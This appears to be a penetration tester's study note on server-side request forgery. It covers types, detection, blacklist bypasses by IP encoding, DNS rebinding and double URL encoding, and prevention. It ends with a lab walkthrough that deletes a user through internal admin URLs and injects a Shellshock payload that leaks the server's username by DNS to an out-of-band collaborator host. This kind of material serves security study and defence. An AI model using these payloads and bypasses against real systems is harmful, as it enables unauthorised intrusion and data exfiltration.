

# Server Side Request Forge

## Server Side Request Forgery

> * An attacker tricks a web application into making requests to internal servers or external servers and exploit that server&#x20;
> * An attacker tricks the web application without validation the user supplied input this allow the attacker to cause the server into making network connection on behalf on attacker&#x20;

<figure><figcaption></figcaption></figure>

### TYPES

#### Regular / In Band

> Attackers trick the URL, and the request URL is display back to as a response.

#### Blind / OutofBand

> Attackers trick the URL, and the request is successfully executed, however the response doesn’t response back. To get the response used the DNS or http request to an attacker control server and if get request means its vulnerable.

#### IMPACT

> Leads to sensitive information disclosing, scanning of internal network, compromise the internal service, remote code execution etc.

### Identifying

* Map the application >> visit every page, walk through every page, make notes of all the input that talk to backend, understand how the application functions, understand the logic and business of the application.
* For request parameter modify the value and fuzz the parameter and see how the application response
* If a defense is in place attempt to using know techniques.
* For request parameter, modify the value to a server on the internet that attacker controls and monitor the server incoming request.

### TYPES&#x20;

### In-Band SSRF

* When testing for in-band SSRF if the web application allows user-supplied malicious URLs, Check whether port numbers can be accessed. If the application permits port scanning, then use Burp Intruder to scan for opens ports and attempts to connect to other services, such as using the loopback address (127.0.0.1 or localhost).
* In Cases where the web application does not allow user-supplied URLs, different encoding methods might bypass blacklists
  * For example: The decimal encoded version of 127.0.0.1 is 2130706433, and 127.1 also resolves to 127.0.0.1. An octal representation can be used, like 01770000001 for 127.0.0.1.&#x20;
* Another method is DNS rebinding, where a domain name is registered to resolve to an internal IP address. In DNS rebinding, an initial request resolves to an external IP, and the application allows it. However, subsequent requests resolve to an internal IP (e.g., 127.0.0.1), bypassing internal IP restrictions.&#x20;
* Alternatively, a server under your control can redirect requests to an internal IP address via HTTP redirection.&#x20;

### Blind SSRF

* Blind SSRF occurs when the application does not display the response from the SSRF request.
* In such cases, attempt to trigger an HTTP request to an external server you control. If the server logs a request, the application is vulnerable. If no response is observed, additional testing may be required to confirm. Burp Suite’s Collaborator Everywhere extension can be used for detection.&#x20;

### Prevention

* Defense in Depth Approach: Implement multiple layers of security controls to protect against attacks. These include application layer defenses and network layer defenses, such as firewalls and monitoring tools.
* Application Layer Defenses: Ensure proper input validation and sanitization on both client-side and server-side. Implement strict access controls and monitor for abnormal activity.
* Network Layer Defenses (Firewall): Configure firewalls to block unauthorized outgoing requests and segment the network to limit access to internal services.
* Sanitize and Validate Input: Always sanitize and validate data both at the client and server levels to prevent injection attacks. Avoid relying solely on client-side validation, as it can be bypassed by attackers.
* Use Allow Lists: Implement allow lists for URLs, ports, and destinations to limit where requests can be made. Avoid blacklists, as they can be bypassed by clever attackers.
* Limit HTTP Redirections: Disable or limit unnecessary HTTP redirections, especially when they involve external domains, to prevent Server-Side Request Forgery (SSRF) attacks.

### TESTING

* You attempted to delete the username carlos by using the following URL: /admin/delete?username=carlos
* &#x20;While testing, you identified an IP address range from 192.168.0.1 to 192.168.0.255. By using Burp Intruder, you found that 192.168.0.201 returned a 404 Not Found error.
* then used the URL: [http://192.168.0.201/admin/delete?username=carlos](http://192.168.0.201/admin/delete?username=carlos) to attempt the deletion.
* There was a blacklist in place, but it was bypassed by using a double URL encoding trick: 127.1/%25%36%31dmin/delete?username=carlos
* In this case, "admin" was encoded, allowing you to bypass the block and delete the user carlos.
* The application only allowed requests from specific stakeholders. You attempted to bypass this by adding a modified parameter: username@stackhold, which was accepted and returned different results.
* You then tried: username#@stackhold/admin
* Here, the hash (#) was double URL encoded. The application parsed username as the parameter, and /admin was interpreted as a directory, bypassing the restrictions.
* During this process, using Burp Collaborator, you found an Out-Of-Band (OOB) Server-Side Request Forgery (SSRF) vulnerability within the User-Agent header. To further exploit this vulnerability, you injected a shellshock payload:


```
() { :;}; /usr/bin/nslookup $(whoami).5w2o34fecrsrt5l2ygkcy840trzin8bx.oastify.com
```


* This payload forced the server to execute the nslookup command, revealing the server’s username via an out-of-band DNS request to the provided oastify.com domain
